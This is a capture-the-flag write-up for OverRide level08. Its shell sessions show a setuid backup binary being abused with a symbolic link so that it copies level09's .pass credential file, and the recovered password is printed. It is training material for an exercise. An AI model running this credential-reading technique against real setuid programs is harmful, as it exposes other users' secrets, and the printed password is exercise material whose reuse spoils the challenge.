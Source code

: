 # level08

During our investigation using gdb, it became evident that the binary takes a specific input file as a parameter. Its primary function involves generating a backup of the file within the directory "./backups" and simultaneously logging relevant information to the file named "backups/.log".

```bash
level08@OverRide:~$ echo "it just a test" > test
level08@OverRide:~$ ls -la
total 32
drwxrwxrwx+ 1 level08 level08   120 Jun 12 17:57 .
dr-x--x--x  1 root    root      260 Oct  2  2016 ..
drwxrwx---+ 1 level09 users      60 Oct 19  2016 backups
-r--------  1 level08 level08     0 Oct 19  2016 .bash_history
-rw-r--r--  1 level08 level08   220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root        7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level08 level08  3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
-rw-r-xr--+ 1 level08 level08    41 Oct 19  2016 .pass
-rw-r--r--  1 level08 level08   675 Sep 10  2016 .profile
-r--r-----+ 1 level08 level08    15 Jun 12 17:57 test
-r--------  1 level08 level08  2235 Oct 19  2016 .viminfo
level08@OverRide:~$ ls
backups  level08  test
level08@OverRide:~$ ls -la backups/.log
-rwxrwx---+ 1 level09 users 0 Oct 19  2016 backups/.log
level08@OverRide:~$ ls -la backups
total 0
drwxrwx---+ 1 level09 users    60 Oct 19  2016 .
drwxrwxrwx+ 1 level08 level08 120 Jun 12 17:57 ..
-rwxrwx---+ 1 level09 users     0 Oct 19  2016 .log
level08@OverRide:~$ cat backups/.log
level08@OverRide:~$ ./level08 test
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: test
LOG: Finished back up test
level08@OverRide:~$ ls -la backups
total 8
drwxrwx---+ 1 level09 users    80 Jun 12 17:57 .
drwxrwxrwx+ 1 level08 level08 120 Jun 12 17:57 ..
-rwxrwx---+ 1 level09 users    55 Jun 12 17:57 .log
-r--r-----+ 1 level09 users    15 Jun 12 17:57 test
level08@OverRide:~$ cat test
it just a test
level08@OverRide:~$
```

Based on our observations, it appears that the file provided as input is indeed backed up in the "backups" directory, and the log information is stored in a file named ".log". Furthermore, the binary has the setuid permission set for the user "level09". This implies that we can potentially leverage this binary to read the contents of the ".pass" file belonging to the "level09" user.

```bash
level08@OverRide:~$ ./level08 ../level09/.pass
ERROR: Failed to open ./backups/../level09/.pass
```

it will not work like that becouase the binary concatenate the path of the file with `./backups/` so we need to use a symbolic link to bypass this

```bash
level08@OverRide:~$ ln -s /home/users/level09/.pass password
level08@OverRide:~$ ls
backups  level08  password
level08@OverRide:~$ ./level08 password
level08@OverRide:~$ cat backups/password
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
